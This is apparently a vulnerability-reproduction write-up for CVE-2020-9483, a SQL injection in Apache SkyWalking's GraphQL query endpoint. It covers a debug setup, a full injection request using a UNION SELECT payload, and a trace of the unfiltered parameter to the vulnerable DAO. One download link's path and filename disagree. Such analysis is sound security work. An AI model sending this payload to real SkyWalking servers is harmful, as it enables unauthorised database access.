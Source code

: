 # Apache SkyWalking graphql SQL injection vulnerability CVE-2020-9483

## Vulnerability Description

Tencent Security Threat Intelligence Center monitored the release of an update by Apache SkyWalking, fixing a SQL injection vulnerability (number: CVE-2020-9483). 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache SkyWalking 6.0.0~6.6.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache SkyWalking 7.0.0</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://archive.apache.org/dist/skywalking/6.5.0/apache-skywalking-apm-6.5.0.tar.gz</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-6.5.0-src.tgz</span>

## Vulnerability reappears

After downloading the compiled source code, enter the bin directory, modify oapService.sh for remote debugging through IDEA

```sh
for i in "$OAP_HOME"/oap-libs/*.jar
do
    CLASSPATH="$i:$CLASSPATH"
done

OAP_OPTIONS=" -Doap.logDir=${OAP_LOG_DIR}"

eval exec "\"$_RUNJAVA\" ${JAVA_OPTS} ${OAP_OPTIONS} -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -classpath $CLASSPATH org.apache.skywalking.oap.server.starter.OAPServerStartUp \
        2>${OAP_LOG_DIR}/oap.log 1> /dev/null &"

if [ $? -eq 0 ]; then
    sleep 1
	echo "SkyWalking OAP started successfully!"
else
	echo "SkyWalking OAP started failure!"
	exit 1

```

Configure IDEA JVM Debug![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650592340016-fcbc91f2-5443-4dd3-b726-5fabfe109617.png)

Check out CVE's repair commit to find a fix

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650592523770-e6ea155d-4e62-426a-82d1-c9acd7359846.png)

Set a breakpoint and send a Payload request package

```php
POST /graphql HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: max-age=0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 416

{
    "query": "query queryData($duration: Duration!) {globalP99: getLinearIntValues(metric: {name: \"all_p99\", id: \"') UNION ALL SELECT NULL,CONCAT('~', H2VERSION(), '~')--\" }, duration: $duration) {  values { value } }}",
    "variables": {
        "duration": {
            "end": "2020-08-07 1418",
            "start": "2020-08-07 1417",
            "step": "MINUTE"
        }
    }
}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650592654329-a18480bd-82f4-41df-bdb5-d99056a6637a.png)

In org.apache.skywalking.oap.query.graphql.resolver we can see that the parameter metrics.getId() is passed directly into getLinearIntValues ​​without filtering.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650592691209-1c8ccadd-47d7-4c67-9cbe-4a6f74738957.png)

Follow org.apache.skywalking.oap.server.core.query.MetricQueryService.getLinearIntValues(MetricQueryService.java:96)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650592955431-233dff33-a8c7-4d6f-a149-472005e5aee5.png)

Come to org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao.H2MetricsQueryDAO.getLinearIntValues(H2MetricsQueryDAO.java:117), here the spliced ​​statement is brought into the database for querying, causing SQL injection

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650593267061-cc90dfbe-c500-42a8-813c-f76d13383367.png)

The call stack is as follows

```java
getLinearIntValues:117, H2MetricsQueryDAO (org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao)
getLinearIntValues:96, MetricQueryService (org.apache.skywalking.oap.server.core.query)
getLinearIntValues:60, MetricQuery (org.apache.skywalking.oap.query.graphql.resolver)
execute:87, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:81, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:54, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:101, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:105, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
```